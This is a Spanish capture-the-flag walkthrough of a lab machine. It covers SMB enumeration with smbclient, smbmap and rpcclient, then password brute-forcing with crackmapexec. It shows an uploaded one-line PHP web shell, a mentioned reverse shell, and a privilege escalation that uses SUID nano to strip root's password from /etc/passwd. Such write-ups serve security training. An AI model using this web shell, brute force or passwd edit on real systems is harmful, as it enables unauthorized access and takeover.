









- Tags: #smb #crackmapexec #sbmclient #smbmap #rpcclient
______
empezamos la maquina con escaneo de puertos utilizando nmap para, verificar los servicios y versiones.

- puerto 80 open
- puerto 139 open
- puerto 445 open 

tenemos una pagina web que investigaremos y veremos que tal, por otro lado tenemos servicios de SAMBA - smb.
____

____
la pagina web contiene una explicación de que es samba y como funciona, nada relevante que podamos ver a simple vista y si le echamos un vistazo al código fuente tampoco se encontrara nada interesante.

por lo que utilizaremos las herramientas **smbclient** y **smbmap**
para así poder ver si tenemos permisos de lectura o escritura en algún recurso compartido. 

```shell
smbclient -L 172.17.0.2 -N 
```

con este comando podremos ver los recursos compartidos disponibles.
____

_____
vemos que tenemos una que se llama **html** pero no nos muestra los permisos y tampoco podemos acceder sin credenciales.

utilizaremos **smbmap** para ver si recopilamos mas información.
___

___
no obtenemos nada, buscando en la pagina de hackstricks y vemos que con la herramienta **rpcclient** podríamos obtener información sobre tal vez usuarios, grupos y usuarios conectados.

```shell
rpcclient -U '' -N 172.17.0.2
```

en caso de que accedamos, aplicaremos el comando `enumdomusers` 
____

______
como podemos ver tenemos dos posibles usuarios, por lo que ahora buscaremos la forma de aplicar fuerza bruta para ver si obtenemos la otra credencial o contraseña.

para esto utilizaremos la herramienta **crackmapexec** puesto que se realizo un intento con hydra pero nos arrojaba un error.

la sintaxis para aplicar fuerza bruta con **crackmapexec** es la siguiente.

```shell
crackmapexec smb 172.17.0.2 -u bob -p <diccionario> 
```

obtenemos una credencial para el usuario bob.
____

______
ahora si nos conectaremos a los servicios de SAMBA, aplicando el siguiente comando.

```shell
smbclient //172.17.0.2/html -U bob%star 
```

ahora veamos que tenemos dentro.
_____

_____
al parecer es el mismo index.html que nos muestra la pagina de la web, tenemos permisos de escritura en el directorio donde estamos, por lo que podríamos subir un archivo malicioso y acceder al mismo desde la red

crearemos un archivo con extensión php ya que la web interpreta este lenguaje.

```php
<?php
	system($_GET['cmd']);
?>
```

el archivo que subiremos tendrá ese contenido en su interior, para subirlo utilizaremos el comando put.

```shell
put <ruta_del_archivo> <nombre_del_archivo>
```

____

___
ahora si nos vamos a la pagina y en la url colocamos `cmd.php?cmd=id` nos debería mostrar la salida del programa.
____

____
es aqui donde verificamos que ha funcionado y ya podemos mandarnos una reverse shell para acceder a la maquina victima.

entramos a la maquina y con el comando `cut -d: -f1 /etc/passwd`listamos los usuarios del sistema, y vemos que se encuentra bob, utilizamos su credencial y pivotamos de usuario.

_____

___
listando los permisos SUID vemos que nano esta presente, esta vulnerabilidad nos permite modificar el archivo **/etc/passwd**.

```shell
root:x:0:0:root:/root:/bin/bash
```
 
a esa linea del usuario root le quitaríamos la x 

```shell
root::0:0:root:/root:/bin/bash
```

guardamos el archivo y aplicamos un **su root** para obtener root 
